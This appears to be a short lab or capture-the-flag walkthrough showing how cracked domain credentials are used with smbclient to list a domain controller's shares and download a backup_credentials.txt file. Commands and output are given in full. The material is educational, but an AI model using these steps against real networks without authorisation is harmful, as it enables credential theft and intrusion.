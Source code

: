 # Enumeration Part 2
- Cracked a user account credentials, now we have more access within domain
- Enumerate shares that the domain controller may be managing

<pre>smbclient -L 10.10.231.15 -U svc-admin  

Password for [WORKGROUP\svc-admin]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.231.15 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
</pre>

- Connect to share
<pre>smbclient \\\\10.10.231.15\\backup -U svc-admin</pre>

<pre>smb: \>ls  
  .                                   D        0  Sat Apr  4 15:08:39 2020
  ..                                  D        0  Sat Apr  4 15:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 15:08:53 2020  

smb: \get backupcredentials.txt

getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)</pre>

- Downloaded backup_credentials.txt using `get` command in smb